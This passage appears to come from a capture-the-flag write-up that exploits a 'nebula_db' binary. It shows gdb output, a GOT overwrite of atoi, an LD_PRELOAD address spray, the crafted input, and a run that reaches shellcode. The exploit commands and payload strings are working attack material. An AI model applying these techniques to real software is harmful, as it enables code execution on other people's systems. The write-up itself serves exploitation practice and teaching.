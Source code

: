 So if this tricks work, we will have a write to address at 0&#215;41414141.

<pre class="brush: cpp; title: ; notranslate" title="">(gdb) x/i $eip
=&gt; 0xb764b706:  movdqu (%edi),%xmm1
(gdb) i r $edi
edi            0x41414141       1094795585
(gdb) bt
#0  0xb764b706 in ?? () from /lib/i386-linux-gnu/libc.so.6
#1  0x0804864c in edit_entry ()
#2  0x08048a04 in main ()
</pre>

So this is all i want :p Next things is find some where to write, and i choose GOT section, first thing i trying is printf@GOT and using a hardcode address to return, and i stupid try to do that to the end of the game :(.  
After that, thinking a little bit, i got another solution:  
After the calling edit_entry ( where we can directly write to GOT section), program will return to while loop at (4) and continue execute, then i see a good candidate to overwrite is atoi, why? cause after fgets at (5) eax will point to our string, and we will use call *eax gadget to execute our shellcode.  
And finally:

<pre class="brush: bash; title: ; notranslate" title="">export LD_PRELOAD=`python -c 'print "x18x91x04x08"*4000+"xcc"*1000'`
</pre>

This will force program wirte to atoi@PLT and

<pre class="brush: bash; title: ; notranslate" title="">suto@ubuntu:~$ objdump -d n | grep call | grep eax
 80485a8:       ff 14 85 08 90 04 08    call   *0x8049008(,%eax,4)
 80485ef:       ff d0                   call   *%eax
 8048b1b:       ff d0                   call   *%eax
suto@ubuntu:~$ python -c 'print "1n"+"A"*250+"n"+"1"*250+"n"+"2n0n"+"x1bx8bx04x08"*40+"xcc"*400' &gt; input
suto@ubuntu:~$ bash
suto@ubuntu:~$ ulimit -s unlimited
suto@ubuntu:~$ export LD_PRELOAD=`python -c 'print "x18x91x04x08"*4000+"xcc"*1000'`
suto@ubuntu:~$ ulimit -c unlimited
suto@ubuntu:~$  ulimit -v 1795
suto@ubuntu:~$ ./nebula_db &lt; input
ERROR: ld.so: object from LD_PRELOAD cannot be preloaded: ignored.
Nebula Database set up!
Enter your choice of action:
1 - Insert new order
2 - Edit order
3 - List orders
4 - Exit

Trace/breakpoint trap (core dumped)
.......
(gdb) x/20x $eip
0xbfa33571:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbfa33581:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbfa33591:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbfa335a1:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbfa335b1:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
</pre>
